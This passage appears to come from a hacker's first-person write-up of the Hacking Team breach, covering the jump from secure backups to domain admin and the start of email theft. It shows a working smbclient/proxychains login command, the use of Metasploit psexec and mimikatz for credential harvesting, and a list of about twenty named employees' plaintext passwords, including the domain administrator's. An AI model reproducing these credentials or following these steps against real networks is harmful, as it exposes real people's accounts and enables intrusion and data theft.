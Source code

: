 [1] https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/Infras
trutturaIT/Rete/infrastruttura%20ht.pdf

----[10 - From secure backups to domain admin ]---------------------

What interested me most in the secure backup was trying to find a
password or hash that I could use to access the actual server. I used
pwdump, cachedump, and lsadump [1] with the registry backups. lsdadump
found a password for the besadmin service account:

_SC_BlackBerry MDS Connection Service
0000   16 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   62 00 65 00 73 00 33 00 32 00 36 00 37 00 38 00    b.e.s.3.2.6.7.8.
0020   21 00 21 00 21 00 00 00 00 00 00 00 00 00 00 00    !.!.!...........

I used proxychains [2] with the socks server in the embedded system
and smbclient [3] to check the password:

proxychains smbclient '//192.168.100.51/c$' -U 'hackingteam.local/besadmin%bes32678!!!'
It worked! The besadmin password was still valid, and was a local
admin. I used my proxy and metasploit's psexec_psh [4] to gain a
meterpreter session. I migrated to a 64-bit process, "load kiwi [5],
and "creds_wdigest", and by now had a number of passwords, including
the domain admin's:

HACKINGTEAM  BESAdmin       bes32678!!!
HACKINGTEAM  Administrator  uu8dd8ndd12!
HACKINGTEAM  c.pozzi        P4ssword      <---- look! the sysadmin!
HACKINGTEAM  m.romeo        ioLK/(90
HACKINGTEAM  l.guerra       4luc@=.=
HACKINGTEAM  d.martinez     W4tudul3sp
HACKINGTEAM  g.russo        GCBr0s0705!
HACKINGTEAM  a.scarafile    Cd4432996111
HACKINGTEAM  r.viscardi     Ht2015!
HACKINGTEAM  a.mino         A!e$$andra
HACKINGTEAM  m.bettini      Ettore&Bella0314
HACKINGTEAM  m.luppi        Blackou7
HACKINGTEAM  s.gallucci     1S9i8m4o!
HACKINGTEAM  d.milan        set!dob66
HACKINGTEAM  w.furlan       Blu3.B3rry!
HACKINGTEAM  d.romualdi     Rd13136f@#
HACKINGTEAM  l.invernizzi   L0r3nz0123!
HACKINGTEAM  e.ciceri       2O2571&2E
HACKINGTEAM  e.rabe         erab@4HT!

[1] https://github.com/Neohapsis/creddump7
[2] http://proxychains.sourceforge.net/
[3] https://www.samba.org/
[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[5] https://github.com/gentilkiwi/mimikatz

--[ 11 - Downloading the mail ]----------------------

Now that I had the password to the domain's admin, I had access to the
email, the hard of the business. Since every password I used raised
the risk of being detected, I download the emails before going on to
explore them. Powershell makes this easy [1]. Curiously, I found a bug
in the way that dates were handled. After obtaining the emails, I
waited a couple of weeks before getting the source code and all the
rest, returning once in a while to download new emails. The server was
Italian, with dates in the format day/month/year. I used:
